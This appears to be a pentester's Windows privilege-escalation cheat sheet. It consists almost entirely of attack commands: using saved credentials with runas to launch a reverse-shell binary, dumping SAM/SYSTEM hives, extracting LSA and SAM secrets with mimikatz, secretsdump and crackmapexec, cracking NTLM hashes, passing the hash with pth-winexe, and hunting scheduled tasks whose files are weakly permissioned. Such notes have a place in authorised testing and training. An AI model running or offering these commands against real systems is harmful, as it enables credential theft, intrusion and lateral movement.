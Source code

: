 Discover `winpeas.exe quiet cmd windowscreds`

`cmdkey /list`

Exploit:

`runas /savecred /user:admin C:\PrivEsc\reverse.exe`




## dump password hashes


reg save HKLM\SAM C:\wamp64\attendance\images\test\SAM
reg save HKLM\SYSTEM C:\wamp64\attendance\images\test\SYSTEM


`impacket-secretsdump -sam SAM -system SYSTEM LOCAL`

OR user mimikatz

```cmd

lsadump::lsa /patch

```
`cme smb ms01.xxx.xxx -u Administrator -p xxx  --lsa --local-auth`

`cme smb ms01.xxx.xxx -u Administrator -p xxx  --sam --local-auth`

* crack NTLM if needed `hashcat -m 1000 --force hash /wordlist`

OR even better login directly win pth-winexe

```powershell

# where hash must include the LM part too
pth-winexe -U 'user%aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71' --system //192.168.111.xxx cmd.exe
```

## Scheduled Tasks compromise

* Discovery

`schtasks /query /fo LIST /v`

or 

``` powershell

Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName, TaskPath, State
```

* Find scripts use by scheduled task
* Check permissions on script or exe 

```cmd
icacls C:\Users\user101\Cleanup.exe

```

